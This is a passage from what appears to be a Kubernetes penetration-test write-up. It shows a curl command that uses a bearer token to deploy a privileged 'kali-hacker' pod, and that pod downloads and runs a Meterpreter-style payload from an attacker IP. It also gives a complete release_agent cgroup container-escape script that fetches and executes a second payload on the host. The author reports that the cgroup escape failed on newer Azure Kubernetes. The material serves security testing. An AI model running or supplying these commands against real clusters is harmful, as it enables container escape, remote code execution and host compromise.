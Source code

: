 ```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X POST ${APISERVER}/apis/apps/v1/namespaces/default/deployments -H 'Content-Type: application/yaml' -d '---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: kali-hacker
  namespace: default
spec:
  selector:
    matchLabels:
      app: kali-hacker
  template:
    metadata:
      labels:
        app: kali-hacker
    spec:
      containers:
        - name: dvwa
          image: docker.io/kalilinux/kali-rolling
          command: ["/bin/bash","-c","/usr/bin/apt update -y && /usr/bin/apt install -y curl && /usr/bin/curl -vk http://<attacker_vm_public_ip>:8001/met-kali -o /tmp/met && /usr/bin/chmod 777 /tmp/met && /tmp/met"]
          imagePullPolicy: IfNotPresent
          ports:
            - containerPort: 80
          securityContext:
            privileged: true
      terminationGracePeriodSeconds: 30
'
```

### 2. Release_agent cgroups escape

This exploit needs a cgroup where we can create a release_agent file and trigger release_agent invocation by killing all processes in the cgroup. The easiest way to accomplish that is to mount a cgroup controller and create a child cgroup.

Here, we have tested for both RDMA and Memory cgroup controller which in both case it did not work.

```bash
mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://<attacker_vm_public_ip>:8001/met-host -o /tmp/met" >> /cmd
echo "chmod 777 /tmp/met" >> /cmd
echo "/tmp/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

We can confirm that it did not work in the new version of the Kubernetes in Azure, and most probably it should be related to the fact that cgroup exploit was mainly related to the Docker and not the containerd!
